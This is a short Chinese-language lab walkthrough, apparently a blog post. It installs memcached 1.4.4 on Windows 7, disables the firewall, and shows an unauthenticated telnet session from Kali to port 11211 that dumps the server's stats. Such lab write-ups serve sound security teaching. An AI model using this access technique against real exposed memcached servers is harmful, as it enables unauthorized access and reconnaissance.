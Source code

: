 ## 环境搭建

在Windows7中解压[压缩包](http://static.runoob.com/download/memcached-win64-1.4.4-14.zip)到指定目录。使用管理员权限运行命令`memcached.exe -d install`

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090604-021d9912-c930-1.jpg)


启动服务`memcached.exe -d start`


## 漏洞利用

为了方便测试这里将防火墙关闭

```bash
root@kali:~/桌面# telnet 192.168.211.140 11211
Trying 192.168.211.140...
Connected to 192.168.211.140.
Escape character is '^]'.
stats
STAT pid 1680
STAT uptime 3054538089
STAT time 408971544
STAT version 1.4.4-14-g9c660c0
STAT pointer_size 64
STAT curr_connections 11
STAT total_connections 12
STAT connection_structures 12
STAT cmd_get 0
STAT cmd_set 0
STAT cmd_flush 0
STAT get_hits 0
STAT get_misses 0
STAT delete_misses 0
STAT delete_hits 0
STAT incr_misses 0
STAT incr_hits 0
STAT decr_misses 0
STAT decr_hits 0
STAT cas_misses 0
STAT cas_hits 0
STAT cas_badval 0
STAT auth_cmds 0
STAT auth_errors 0
STAT bytes_read 57
STAT bytes_written 788
STAT limit_maxbytes 67108864
STAT accepting_conns 1
STAT listen_disabled_num 0
STAT threads 4
STAT conn_yields 0
STAT bytes 0
STAT curr_items 0
STAT total_items 0
STAT evictions 0
END
```
